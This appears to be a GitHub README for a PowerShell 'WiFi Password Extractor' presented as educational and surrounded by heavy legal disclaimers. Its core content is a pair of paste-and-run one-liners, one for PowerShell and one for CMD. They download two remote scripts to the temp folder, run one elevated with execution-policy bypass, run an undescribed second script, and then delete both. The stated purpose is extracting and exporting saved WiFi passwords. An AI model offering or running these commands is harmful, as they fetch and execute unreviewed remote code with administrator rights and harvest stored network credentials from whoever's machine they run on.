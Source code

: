 <div align="center">

# ⚠️ SQD5-DCWH WiFi Password Extractor

<img src="https://img.shields.io/badge/PowerShell-5.1%2B-blue?style=for-the-badge&logo=powershell" alt="PowerShell">
<img src="https://img.shields.io/badge/Windows-7%20%7C%208%20%7C%2010%20%7C%2011-0078d4?style=for-the-badge&logo=windows" alt="Windows">
<img src="https://img.shields.io/badge/Status-EDUCATIONAL%20ONLY-red?style=for-the-badge" alt="Educational Only">

### _WiFi Password Extraction Tool - Educational Purposes Only_ 🎓

<img src="https://user-images.githubusercontent.com/74038190/212257454-16e3712e-945a-4ca2-b238-408ad0bf87e6.gif" width="100">

</div>

---

> [!DANGER]
>
> # 🚨 DO NOT RUN THIS SCRIPT! 🚨
>
> **THIS IS FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY**
>
> - 🔴 **DO NOT EXECUTE** this script on any system
> - 🔴 **FOR LEARNING ONLY** - Study the code, don't run it
> - 🔴 **POTENTIAL SECURITY RISK** if misused
> - 🔴 **YOU ARE RESPONSIBLE** for any consequences

---

## 🎯 Quick Demo (Educational Only)

> [!WARNING] > **These commands are for educational demonstration only!**
>
> **DO NOT RUN unless you fully understand the risks and have proper authorization!**

### 🏃‍♂️ PowerShell One-Liner

```powershell
$i="$env:TEMP\sqd5dcwh.ps1"; $b="$env:TEMP\run.ps1"; iwr "https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/sqd5dcwh.ps1" -OutFile $i; Start-Process "powershell.exe" -ArgumentList "-NoProfile","-ExecutionPolicy","Bypass","-File",$i -Verb RunAs -Wait; Remove-Item $i -Force; iwr "https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/run.ps1" -OutFile $b; Start-Process $b -Wait; Remove-Item $b -Force

```

### 📱 CMD Version

```cmd
powershell -Command "$i='$env:TEMP\sqd5dcwh.ps1'; $b='$env:TEMP\run.ps1'; iwr 'https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/sqd5dcwh.ps1' -OutFile $i; Start-Process 'powershell.exe' -ArgumentList '-NoProfile','-ExecutionPolicy','Bypass','-File',$i -Verb RunAs -Wait; Remove-Item $i -Force; iwr 'https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/run.ps1' -OutFile $b; Start-Process $b -Wait; Remove-Item $b -Force"

```

> [!CAUTION] > **REMEMBER:** Running these commands will:
>
> - Download and execute the script automatically
> - Request administrator privileges
> - Extract WiFi passwords from your system
> - **Only use on systems you own or have explicit permission to test!**

---

## 📋 What This Tool Does

This PowerShell script demonstrates WiFi password extraction techniques by:

- 🔍 Extracting saved WiFi profiles from Windows
- 📄 Displaying stored network passwords
- 💾 Exporting results to text file
- 🎨 Providing a colorful terminal interface

---

## 🔗 Script Location

**Main Script:** [sqd5dcwh.ps1](https://github.com/09sychic/sqd5-with-dcwh/blob/main/sqd5dcwh.ps1)

---

## 📋 System Requirements

<div align="center">

<img src="https://img.shields.io/badge/OS-Windows_7+-0078d4?style=flat-square&logo=windows" alt="Windows 7+">
<img src="https://img.shields.io/badge/PowerShell-5.1+-012456?style=flat-square&logo=powershell" alt="PowerShell 5.1+">
<img src="https://img.shields.io/badge/Privileges-Administrator-red?style=flat-square&logo=windows-terminal" alt="Admin Required">

</div>

---

## 🎓 Educational Use Cases

- **Security Research:** Understanding Windows credential storage
- **Penetration Testing Education:** Learning about local privilege escalation
- **PowerShell Learning:** Studying advanced scripting techniques
- **Cybersecurity Awareness:** Understanding password security risks

---

## ⚖️ Legal Disclaimer & Warnings

<div align="center">

<img src="https://user-images.githubusercontent.com/74038190/212257460-738ff738-247f-4445-a718-cdd0ca76e2db.gif" width="100">

</div>

> [!CAUTION] > **CRITICAL LEGAL AND SECURITY WARNINGS**
>
> ### 🚨 DO NOT USE FOR:
>
> - ❌ Unauthorized access to networks
> - ❌ Accessing systems without permission
> - ❌ Any illegal or malicious activities
> - ❌ Violating privacy or computer crime laws
>
> ### ✅ ONLY ACCEPTABLE FOR:
>
> - ✅ Educational research and learning
> - ✅ Authorized penetration testing
> - ✅ Personal system security assessment
> - ✅ Academic cybersecurity studies
>
> ### ⚠️ IMPORTANT NOTICES:
>
> - **YOU ARE FULLY RESPONSIBLE** for how you use this code
> - **RESPECT ALL LOCAL AND INTERNATIONAL LAWS**
> - **OBTAIN EXPLICIT PERMISSION** before testing on any system
> - **AUTHOR IS NOT LIABLE** for misuse or damages

---

## 🛡️ Security Considerations

- This tool demonstrates why saved passwords can be security risks
- Always use strong, unique passwords for WiFi networks
- Consider using WPA3 security protocols when available
- Regularly audit saved network profiles on your devices

---

## 🤝 Responsible Disclosure

If you discover security vulnerabilities through educational use of this code, please follow responsible disclosure practices and report findings to the appropriate parties.

---

## 📄 License

<div align="center">

<img src="https://img.shields.io/github/license/09sychic/sqd5-with-dcwh?style=for-the-badge&color=red" alt="License">

**This project is for educational purposes only**

</div>

---

<div align="center">

### ⚠️ Remember: With Great Power Comes Great Responsibility ⚠️

<img src="https://user-images.githubusercontent.com/74038190/212257468-1e9a91f1-b626-4baa-b15d-5c385dfa7cd2.gif" width="100">

**🎓 Learn Responsibly • 🛡️ Use Ethically • ⚖️ Follow Laws**

<img src="https://komarev.com/ghpvc/?username=09sychic&style=for-the-badge&color=red" alt="Profile Views">

</div>
